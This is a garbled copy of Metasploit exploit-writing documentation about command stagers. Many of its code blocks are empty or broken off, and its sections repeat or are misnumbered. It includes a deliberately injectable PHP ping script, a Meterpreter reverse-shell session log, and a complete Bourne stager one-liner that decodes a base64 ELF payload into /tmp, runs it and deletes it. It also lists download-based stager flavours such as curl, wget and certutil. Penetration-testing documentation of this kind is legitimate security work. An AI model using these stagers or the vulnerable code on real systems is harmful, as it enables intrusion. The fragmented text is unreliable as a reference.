 # The Vulnerability Test Case
The best way to explain how to use a command stager is probably by demonstrating it. Here we have a command injection vulnerability in example PHP code, something silly you actually might see in enterprise-level software. The bug is that you can inject additional system commands in the system call for ping:
```msf
msf exploit(cmdstager_demo) > run

[*] Started reverse TCP handler on 10.6.0.92:4444
[*] Exploiting...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 10.6.0.92
[*] Meterpreter session 1 opened (10.6.0.92:4444 -> 10.6.0.92:51522) at 2016-06-10 11:51:03 -0500
```

you the output:
```
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAA
AAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAAMf9qCViZthBIidZNMclqIkFaagdaDwVIhcB4UWoK
QVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXAoFh8lRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+
Wg8FSIXAeO3/5g==>>'/tmp/XtMnQ.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (w
hich openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; pri
nt base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)
')) 2> /dev/null > '/tmp/IPUov' < '/tmp/XtMnQ.b64' ; chmod +x '/tmp/IPUov' ; '/tmp/IPUov' ; rm -f '/tmp/IPUov' ; rm -f '
/tmp/XtMnQ.b64'"]
```

`php
<?php
   if ( isset($_GET["ip"]) ) {
      $output = system("ping -c 1 " . $_GET["ip"]);
      die($output);
   }
?>

<html>
<body>
  <form action = "ping.php" method = "GET">
   IP to ping: <input type = "text" name = "ip" /> <input type = "submit" />
  </form>
   </body>
</html>
`

`

See the www-data? That is the output for the second command we asked the script to execute. By doing that, we can also do something even more nasty - like writing a Meterpreter payload onto the target system, and execute it.


# The Msf::Exploit::CmdStager Mixin

Now let's talk about how to use a command stager to exploit the above script. There are a couple of steps you need to do:

**1. Include the Msf::Exploit::CmdStager mixin**

Although there are many flavors of mixins/stagers, you only need to include [Msf::Exploit::CmdStager](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/cmd_stager.rb) when writing a Metasploit exploit. The mixin is basically an interface to all command stagers:

`

`

**2. Declare your flavors**

To tell `

`


**3. Create the execute_command method**

You also must create a `

` will automatically display the http traffic as it is sent and received.

**4. Decide on the supported payloads**

CmdStagers are intended to support payloads that are uploaded, saved to disk, and launched, but many of the payloads in Metasploit Framework do not need to be saved to disk; these payloads are `

` and includes binary elf payloads.  These payload types must be saved to disk before they can be launched, and as such, you will often see this second type of payload referred to as a ‘dropper’ because the file must be ‘dropped’ to the disk before it can be executed.  In each of the targets above, we’ve selected a default payload we know will work.  

**4. Executing a payload**
As we said earlier, the way a payload is executed depends on the payload type.  By including `

`:

* **flavor** - You can specify what command stager (flavor) to use from here.
* **delay** - How much time to delay between each command execution. 0.25 is default.
* **linemax** - Maximum number of characters per command. 2047 is default.

**Msf::Exploit::CmdStager Template**

At the minimum, this is how your exploit should start when you're using the CmdStager mixin:

`

`msf
msf exploit(cmdstager_demo) > run

[*] Started reverse TCP handler on 10.6.0.92:4444
[*] Exploiting...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 10.6.0.92
[*] Meterpreter session 1 opened (10.6.0.92:4444 -> 10.6.0.92:51522) at 2016-06-10 11:51:03 -0500
`

`.

Available flavors:

Flavors requiring the payload to be broken apart and embedded into the commands:
* [bourne](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/bourne.rb)
* [certutil](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/certutil.rb)
* [debug_asm](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/debug_asm.rb)
* [debug_write](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/debug_write.rb)
* [echo](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/echo.rb)
* [printf](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/printf.rb)
* [vbs](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/vbs.rb)

Flavors that rely on using a command to retrieve the payload via network connection
* [curl](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/curl.rb)
* [fetch](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/fetch.rb)
* [lwprequest](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/lwprequest.rb)
* [psh_invokewebrequest](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/psh_invokewebrequest.rb)
* [tftp](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/tftp.rb)
* [wget](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/wget.rb)


## VBS Command Stager - Windows Only

The [VBS command stager](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/vbs.rb) is for Windows. What this does is it encodes our payload with Base64, save it on the target machine, also writes a [VBS script](https://github.com/rapid7/rex-exploitation/blob/master/data/exploits/cmdstager/vbs_b64) using the echo command, and then lets the VBS script to decode the Base64 payload, and execute it.

If you are exploiting Windows that supports Powershell, then you might want to [[consider using that instead|./How-to-use-Powershell-in-an-exploit.md]] of the VBS stager, because Powershell tends to be more stealthy.

To use the VBS stager, either specify your CmdStagerFlavor in the metadata:

`

`


## Certutil Command Stager - Windows Only

[Certutil](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/certutil.rb) is a Windows command that can be used to dump and display certification authority, configuration information, configure certificate services, back up and restore CA components, etc. It only comes with newer Windows systems starting from Windows 2012, and Windows 8.  I find the certutil flavor confusing, as certutil can be used to download files just like `

`

## Bourne Command Stager - Multi Platform

**Linemax** minimum: 373

The [Bourne](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/bourne.rb) command stager supports multiple platforms except for Windows. Just like many other stagers, it writes a base64 encoded payload to disk, but then it tries to decode it using four different commands: base64, openssl, python, and perl.  This is very useful if the target's OS is unpredictable. You can see the way it attempts to use multiple decoding techniques by setting `

`
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAA
AAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAAMf9qCViZthBIidZNMclqIkFaagdaDwVIhcB4UWoK
QVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXAoFh8lRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+
Wg8FSIXAeO3/5g==>>'/tmp/XtMnQ.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (w
hich openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; pri
nt base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)
')) 2> /dev/null > '/tmp/IPUov' < '/tmp/XtMnQ.b64' ; chmod +x '/tmp/IPUov' ; '/tmp/IPUov' ; rm -f '/tmp/IPUov' ; rm -f '
/tmp/XtMnQ.b64'"]
`

`


## Echo Command Stager - Multi Platform

**Linemax** minimum: 26

The [echo](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/echo.rb) command stager is suitable for multiple platforms except for Windows. It just [echos](http://manpages.ubuntu.com/manpages/trusty/man1/echo.1fun.html) the payload, chmod and execute it. An example of that looks similar to this:

`

`


## Printf Command Stager - Multi Platform

**Linemax** minimum: 25

The [printf](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/printf.rb) command stager is also suitable for multiple platforms except for Windows. It just uses the printf command to write the payload to disk, chmod and execute it. An example of that looks similar to this:

`

